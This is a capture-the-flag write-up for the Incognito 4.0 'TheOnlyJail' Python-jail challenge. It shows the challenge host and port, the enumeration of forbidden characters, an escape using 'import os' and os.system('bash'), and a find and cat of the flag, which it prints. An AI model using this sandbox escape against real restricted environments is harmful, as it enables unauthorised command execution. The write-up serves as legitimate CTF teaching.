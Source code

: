 # TheOnlyJail

## Overview

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

![](https://github.com/siunam321/CTF-Writeups/blob/main/Incognito-4.0/images/Pasted%20image%2020230218142849.png)

## Escape the jail

**In this challenge, we can connect to a docker instance:**
```shell
┌[siunam♥earth]-(~/ctf/Incognito-4.0/massive)-[2023.02.18|14:29:16(HKT)]
└> nc -nv 139.177.202.200 3333
(UNKNOWN) [139.177.202.200] 3333 (?) open
Welcome to the IIITL Jail! Escape if you can
jail> 
```

In a typical CTF pyjail challenge, we need to escape the restricted environment.

**First off, enumerate which characters are allowed:**
```shell
jail> !
Error: Error: forbidden character '!'
jail> @
Error: Error: forbidden character '@'
jail> #
Error: Error: forbidden character '#'
jail> $
Error: Error: forbidden character '$'
jail> %
Error: Error: forbidden character '%'
jail> ^
Error: Error: forbidden character '^'
jail> 
```

As you can see, many characters are forbidden.

**However, some characters are allowed:**
```shell
*()='":.,
```

**Hmm... If `'()` are allowed, can we import some Python libraries?**
```shell
jail> import os
jail> os.system('id') 
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
```

Oh!! We can! Most importantly, we can execute OS commands!!

**Let's try to spawn a shell!**
```shell
jail> os.system('bash')
whoami;hostname;id
ctf
32d84834a037
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
ls -lah
total 72K
drwxr-xr-x   1 root root 4.0K Feb 18 05:03 .
drwxr-xr-x   1 root root 4.0K Feb 18 05:03 ..
-rwxr-xr-x   1 root root    0 Feb 18 05:03 .dockerenv
lrwxrwxrwx   1 root root    7 Jan 26 02:03 bin -> usr/bin
drwxr-xr-x   2 root root 4.0K Apr 18  2022 boot
drwxr-xr-x   5 root root  340 Feb 18 05:03 dev
drwxr-xr-x   1 root root 4.0K Feb 18 05:03 etc
drwxr-xr-x   1 root root 4.0K Feb 18 05:00 home
lrwxrwxrwx   1 root root    7 Jan 26 02:03 lib -> usr/lib
lrwxrwxrwx   1 root root    9 Jan 26 02:03 lib32 -> usr/lib32
lrwxrwxrwx   1 root root    9 Jan 26 02:03 lib64 -> usr/lib64
lrwxrwxrwx   1 root root   10 Jan 26 02:03 libx32 -> usr/libx32
drwxr-xr-x   2 root root 4.0K Jan 26 02:03 media
drwxr-xr-x   2 root root 4.0K Jan 26 02:03 mnt
drwxr-xr-x   2 root root 4.0K Jan 26 02:03 opt
dr-xr-xr-x 214 root root    0 Feb 18 05:03 proc
drwx------   2 root root 4.0K Jan 26 02:06 root
drwxr-xr-x   1 root root 4.0K Feb 18 05:03 run
lrwxrwxrwx   1 root root    8 Jan 26 02:03 sbin -> usr/sbin
drwxr-xr-x   2 root root 4.0K Jan 26 02:03 srv
-rwxr-xr-x   1 root root   53 Feb 18 04:56 start.sh
dr-xr-xr-x  13 root root    0 Feb 18 05:03 sys
drwxrwxrwt   1 root root 4.0K Feb 18 04:59 tmp
drwxr-xr-x   1 root root 4.0K Jan 26 02:03 usr
drwxr-xr-x   1 root root 4.0K Jan 26 02:06 var
```

Nice! We successfully break out the pyjail!

**Let's use `find` to find the flag location:**
```shell
find / -name "*flag*" 2>/dev/null
/home/ctf/flag.txt
[...]
```

**Found it!**
```shell
cat /home/ctf/flag.txt
ictf{ff8ab219-a90b-44f8-9273-ccc13766f2eb}
```

- **Flag: `ictf{ff8ab219-a90b-44f8-9273-ccc13766f2eb}`**

# Conclusion

What we've learned:

1. Python Jailbreak Via Importing OS Library